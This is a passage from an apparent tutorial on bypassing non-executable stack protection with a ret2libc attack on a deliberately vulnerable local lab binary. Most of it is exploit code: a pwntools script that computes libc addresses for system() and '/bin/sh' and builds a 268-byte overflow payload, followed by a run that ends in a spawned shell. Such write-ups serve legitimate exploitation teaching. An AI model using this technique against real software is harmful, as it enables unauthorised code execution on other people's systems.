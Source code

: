     print("[+] Shell located at offset from libc: %s" % hex(binsh))
    shell_addr = libc_base + binsh
    print("[+] Shell is at address: %s" % hex(shell_addr))
    print("[+] libc.system() has a %s offset from libc" % hex(libc.symbols["system"]))
    system_call = int(libc_base + libc.symbols["system"])
    print("[+] system call is at address: %s" % hex(system_call))

    payload = 'A' * 268
    payload += p32(system_call)
    payload += 'JUNK'
    payload += p32(shell_addr)

    if args.dbg:
        r = gdb.debug([executable, payload],
                        gdbscript="""
                        b *totally_secure+53
                        continue""")
    else:
        r = process([executable, payload])
    r.interactive()

if __name__ == '__main__':
    main()
    sys.exit(0)
{% endhighlight %}

Proof of concept:

    python bypass_ret2libc.py INFO
    [*] '/DEP/binary/vuln_with_nx'
        Arch:     i386-32-little
        RELRO:    No RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [*] '/lib/i386-linux-gnu/libc-2.24.so'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    [+] Shell located at offset from libc: 0x15fa0f
    [+] Shell is at address: 0xf7f56a0f
    [+] libc.system() has a 0x3b060 offset from libc
    [+] system call is at address: 0xf7e32060
    [+] Starting local process './binary/vuln_with_nx': pid 65828
    [*] Switching to interactive mode
    Hello, I'm your friendly & totally secure binary :)!
    What is your name?
    Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA` ��JUNK\x0fj��!
    $ whoami
    pwnbox
    $  
